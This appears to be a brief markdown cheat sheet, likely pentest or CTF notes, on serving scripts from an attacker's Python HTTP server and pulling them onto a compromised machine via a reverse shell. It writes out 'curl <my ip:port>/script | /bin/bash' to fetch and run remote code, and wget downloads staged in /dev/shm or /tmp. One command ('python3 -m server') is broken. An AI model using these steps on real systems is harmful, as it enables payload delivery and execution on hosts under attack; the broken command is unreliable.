 ## PYTHON server 

**on my terminal**
  (open the server in the dir you have the scripts so that it will wget all the files of the dir on the mac)

```bash
 python3 -m server 8000
```
```bash 
python3 -m http.server (portnumber)

```

**on the mac so obtained/revershell**

dir > /dev/shm (wget any script in this dir)

```bash
 wget -r <my ip>  #(do ifconfig to know the ip)
```
  or

```bash
 curl <my ip:port>/script | /bin/bash
```

Note: you can also wget or curl in /tmp directory 
